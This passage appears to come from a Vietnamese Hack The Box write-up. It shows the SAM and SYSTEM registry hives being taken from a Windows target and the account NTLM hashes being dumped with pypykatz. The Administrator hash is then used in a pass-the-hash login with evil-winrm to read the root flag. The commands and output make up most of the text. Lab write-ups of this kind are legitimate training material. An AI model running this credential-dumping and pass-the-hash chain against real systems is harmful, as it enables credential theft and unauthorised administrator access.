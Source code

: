 ![image](https://hackmd.io/_uploads/rkhRILn00.png)

```
cd Temp
download sam
download system
```

## pypykatz 
`pypykatz` sẽ lấy thông tin từ tệp **SAM** và tệp **SYSTEM** để thu thập thông tin về credential người dùng dưới dạng hash
```
┌──(root㉿kali)-[/home/kali/Downloads/HTB_machines]
└─# pypykatz registry --sam sam system
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
## Pass the hash with evil-winrm
Sử dụng kỹ thuật Pass the hash cùng với `evil-winrm` có hỗ trợ ta lấy được root flag
```
┌──(root㉿kali)-[/home/kali/Downloads/HTB_machines]
└─# evil-winrm -i 10.10.11.35 -u administrator -H '2b87e7c93a3e8a0ea4a581937016f341'

<SNIP>
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5844fad3500efcbc92*****
```

![image](https://hackmd.io/_uploads/Hyh32IhRR.png)

